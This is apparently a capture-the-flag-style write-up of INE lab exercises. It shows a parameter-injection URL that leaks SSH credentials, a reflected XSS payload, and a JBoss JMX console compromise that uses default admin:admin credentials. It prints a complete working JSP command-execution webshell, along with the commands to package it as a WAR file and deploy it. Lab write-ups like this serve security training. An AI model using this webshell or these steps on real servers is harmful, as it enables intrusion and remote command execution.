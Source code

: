 ```bash
http://demo.ine.local:9090/item?cn=david&disp=sshPublicKey
```
And we get the creds: david:r0ck_s0l1d_p4ssw0rd. Now we can login via SSH and get the flag: 5520dd2d85e5003db92048c629bb5072.
As a bonus, we can also see that the objectClass url parameter is reflected and HTML injection is possible, for instance by injecting some underline tags such as <u></u>. We can get something more by using (parenthesis don't work):
```bash
<script>alert`document.domain`</script>
```
# HTML Adapter to root (JBOSS)
After an nmap scan we see multiple ports open, including Tomcat, RMI and JBoss.
Trying to access the JMX console on JBOSS, we are asked for credentials. The defaults admin:admin work and we are then in. The JMX console allows us to manage the application, potentially executing malicious code.
Going to jboss.system, we find the service "MainDeployer" which we can use, under the redeploy function to upload a malicious webshell.
We can use the following backdoor:
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
We need a war file, so we archive it with:
```bash
jar -cvf backdoor.war backdoor.jsp
```
We then setup a webserver serving the war file and using the redeploy function we supply to url pointing to the war.
We can then access it:
```bash
http://demo.ine.local:8080/backdoor/backdoor.jsp?cmd=whoami
```